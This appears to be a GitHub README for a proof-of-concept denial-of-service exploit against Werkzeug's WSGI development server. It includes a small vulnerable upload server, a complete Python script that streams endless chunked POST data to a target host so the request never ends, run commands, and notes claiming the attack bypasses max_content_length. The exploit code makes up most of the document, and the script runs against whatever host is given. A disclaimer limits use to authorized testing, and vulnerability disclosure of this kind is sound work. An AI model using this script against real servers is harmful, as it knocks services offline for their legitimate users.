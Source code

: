 # Werkzeug WSGI Chunked Upload DoS PoC

Proof of Concept for a denial-of-service (DoS) vulnerability in Werkzeug’s WSGI request handling that allows bypassing the max_content_length limit, causing servers to hang when processing infinite or excessively large HTTP request bodies.


This repository demonstrates a **Denial of Service (DoS)** vulnerability in Werkzeug’s WSGI server related to handling chunked HTTP uploads.

By sending an infinite chunked POST request, an attacker can cause the server to hang indefinitely, bypassing the `max_content_length` protection.

---

## Server

A minimal Werkzeug server exposing an `/upload` endpoint:

```python
from werkzeug.wrappers import Request, Response
from werkzeug.serving import run_simple

@Request.application
def application(request):
    if request.path == "/upload":
        data = request.get_data()
        return Response(f"Received {len(data)} bytes\n", mimetype="text/plain")
    return Response("Hello World\n", mimetype="text/plain")

if __name__ == "__main__":
    print("Starting Werkzeug server on http://0.0.0.0:5000")
    run_simple("0.0.0.0", 5000, application)
```
Exploit Code (exploit.py)
This script sends an HTTP chunked POST request with an infinite stream of data chunks, causing the server to hang.

```python
import socket
import sys
import time

def send_chunk(sock, data: bytes):
    chunk_size = f"{len(data):X}\r\n".encode()
    sock.sendall(chunk_size + data + b"\r\n")

def send_chunked_request(host, port, path, infinite=False, chunk_data=b'a'*1024, max_chunks=100):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    headers = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Transfer-Encoding: chunked\r\n"
        "Connection: close\r\n"
        "\r\n"
    )
    sock.sendall(headers.encode())

    count = 0
    try:
        while True:
            send_chunk(sock, chunk_data)
            count += 1
            print(f"[+] Sent chunk #{count} ({len(chunk_data)} bytes)")
            if not infinite and count >= max_chunks:
                break
            time.sleep(0.1)
        sock.sendall(b"0\r\n\r\n")
        print("[+] Sent last chunk (0-length) to close request")
    except KeyboardInterrupt:
        print("\n[!] Interrupted by user")
    except Exception as e:
        print(f"[!] Exception: {e}")
    finally:
        sock.close()

if __name__ == "__main__":
    if len(sys.argv) < 4:
        print(f"Usage: python {sys.argv[0]} <host> <port> <path> [infinite]")
        print("Example: python exploit.py 127.0.0.1 5000 /upload infinite")
        sys.exit(1)

    host = sys.argv[1]
    port = int(sys.argv[2])
    path = sys.argv[3]
    infinite = len(sys.argv) > 4 and sys.argv[4].lower() == "infinite"

    send_chunked_request(host, port, path, infinite=infinite)
```

##Usage
Run the vulnerable Werkzeug server:
```bash
python werkzeug_server.py
```
In another terminal, run the exploit against the server:
```bash
python exploit.py 127.0.0.1 5000 /upload infinite
```


https://github.com/user-attachments/assets/8b07e9dc-57f9-481b-a818-fd5746b90134




This will send an infinite HTTP chunked upload request causing the server to hang, demonstrating the DoS vulnerability.
Explanation
The Werkzeug server reads all the incoming chunked request data with request.get_data().

The exploit sends an infinite stream of chunked data (never sending the terminating zero-length chunk).

Werkzeug's max_content_length protection is bypassed because the server keeps waiting for the end of the chunked stream, which never arrives.

This causes the server to hang indefinitely, leading to a Denial of Service.

#Impact
Remote attacker can send crafted chunked uploads that hang the server.

Denies legitimate clients access to the server.

Could be exploited for DoS attacks on services using Werkzeug WSGI server without additional protections.

#Disclaimer
Use this code only in environments you own or have explicit permission to test. Do not attack unauthorized systems.

#Notes
1.This is for educational and testing purposes only.

2.Werkzeug's built-in server is a development server and not meant for production.

3.Real-world WSGI servers or frameworks may have mitigations or behave differently.




